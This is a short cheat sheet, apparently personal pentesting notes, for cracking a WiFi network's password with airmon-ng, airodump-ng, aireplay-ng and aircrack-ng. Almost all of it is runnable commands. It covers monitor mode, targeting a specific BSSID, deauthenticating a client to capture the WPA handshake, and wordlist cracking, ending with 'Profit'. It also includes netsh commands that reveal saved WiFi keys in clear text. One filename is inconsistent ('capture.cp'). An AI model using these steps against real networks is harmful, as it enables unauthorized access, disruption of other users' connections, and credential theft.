 #WiFi #airmon-ng #airodump-ng #aireplay-ng #aircrack-ng
1. Kill competing processes
	1. `airmon-ng check kill`
2. Put adapter in monitor mode
	1. `airmon-ng start wlan0`
3. Search area for networks
	1. `airodump-ng wlan0mon`
4. Refine search for channel, BSSID, and store in capture file
	1. `airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon`
5. Can deauth to grab handshake faster (-0=deauth, 1=how many times, -a=Access Point, -c=workstation)
	1. `aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:F0:11:22:DB:E3 wlan0mon`
6. View capture file
	1. `ls capture*`
	2. `cat capture.cap`
7. Crack password (use custom wordlist or one from online)
	1. `aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cp`
8. Profit

Show your networks and their passwords
- `netsh wlan show profile`
- `netsh wlan show profile <SSID> key=clear`